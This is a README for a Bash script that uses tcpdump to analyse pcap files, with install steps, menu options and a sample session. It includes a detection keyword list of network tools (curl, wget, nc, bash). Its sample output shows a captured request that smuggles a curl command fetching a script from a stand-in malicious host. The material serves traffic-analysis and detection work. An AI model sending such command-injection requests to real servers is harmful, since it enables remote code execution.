 # Traffic-Analysis-Tools
Better way to analyze traffic
# Traffic Analysis Tools 🚦🔍

This repository contains a collection of tools to help analyze and visualize network traffic captured in PCAP files. These tools aim to provide an intuitive interface and a range of analysis options for enhanced understanding of network behavior.

## Table of Contents 📝
- [Overview](#overview-)
- [Tools](#tools-)
  - [tCpDump.sh](#tcpdumpsh-)
- [Prerequisites](#prerequisites-🛠️)
- [Installation](#installation-⚙️)
- [Usage](#usage-🚀)
- [Features](#features-✨)
- [Contributing](#contributing-🤝)
- [License](#license-📜)
  
## Tools 🧰

### tCpDump.sh 📊
`tCpDump.sh` is an interactive Bash script that streamlines the analysis of pcap files using `tcpdump`. It provides a user-friendly menu with 24 analysis options, enabling you to:
- List source and destination IPs.
- Analyze conversation statistics (sequence and acknowledgment numbers).
- Detect packet retransmissions and anomalous traffic.
- Visualize conversation traces with Chart.js.
- Search for suspicious commands ( `curl`, `wget`) in payloads.

## Prerequisites 🛠️
To use `tCpDump.sh`, ensure the following are installed:
- **tcpdump**: Required for analyzing pcap files.
  - Install on Debian/Ubuntu: `sudo apt-get install tcpdump`
  - Install on Red Hat/CentOS: `sudo yum install tcpdump`
- **geoip-bin** (optional): Enables GeoIP analysis for mapping IPs to locations.
  - Install on Debian/Ubuntu: `sudo apt-get install geoip-bin`
- A Unix-like system with Bash ( Linux, macOS, WSL on Windows).
- PCAP files (`.pcap` or `.pcapng`) for analysis.

## Installation ⚙️
1. Clone the repository:
   ``` 
   git clone https://github.com/your-username/Traffic-Analysis-Tools.git
   cd Traffic-Analysis-Tools
   ```
2 Make the script executable:

Make the script executable:

  ```
   chmod +x tCpDump.sh
   ```

Ensure tcpdump is installed (see Prerequisites).
(Optional) Install geoip-bin for GeoIP support.
Usage 🚀
Run the script and follow the interactive menu:
  ```
   ./tCpDump.sh
  ```
Example Workflow
Select Option 1 to list available pcap files in the current directory.
Select Option 2 to analyze a pcap file (capture.pcap).
Choose from 24 analysis options, such as:
Option 2: Display source and destination IP addresses.
Option 22: Visualize conversation trace (outputs Chart.js config).
Option 24: Search for suspicious commands like curl or wget.
Sample Output
```

$ ./tCpDump.sh
Please choose an option:
1. List available pcap files
2. Analyze a pcap file
3. Show tcpdump man page (related to pcap)
4. Exit

Option: 2
Enter the pcap file name: capture.pcap
Choose an analysis option:
...
24. Search for suspicious commands
Option: 24
Searching for suspicious commands (curl, wget, nc, bash)...
192.168.1.10.12345 > 93.184.216.34.80: Flags [P.], seq 1:200, ack 1, win 512
GET /?cmd=curl%20http://malicious.com/script.sh HTTP/1.1
Host: example.com
--
Note: Found commands may appear in User-Agent strings, URLs, or payloads. Review context for suspicion.
```
